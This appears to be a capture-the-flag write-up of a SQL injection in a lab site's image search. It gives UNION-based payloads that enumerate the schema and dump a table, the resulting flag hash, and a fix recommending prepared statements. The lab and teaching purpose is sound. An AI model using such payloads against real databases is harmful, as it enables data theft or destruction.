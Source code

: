 # Explaination

The image search is vulnerable to SQL injection like the user search. So I will look for the columns of the table:

```sql
1 or 1=1 UNION select table_name, column_name FROM information_schema.columns
```

I can find the table `list_images` with 4 columns: `id`, `url`, `title` and `comment`. I will now look for the content of the table:

```sql
1 or 1=1 UNION select title, comment FROM list_images
```

I can see:
```
ID: 1 or 1=1 UNION select title, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

The flag decoded is 'albatroz'.
And the flag encrypted is 'f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188'.

# Use case

We can use this vulnerability to have all the datas of a Database, or Drop the Database etc...

# Fix

You must use prepared statements to avoid SQL injection, and not use directly the value of the input in the SQL query.
But now, almost every website uses an ORM, which is a layer between the database and the application, and it automatically uses prepared statements, so it's very rare to see a SQL injection in a modern website.
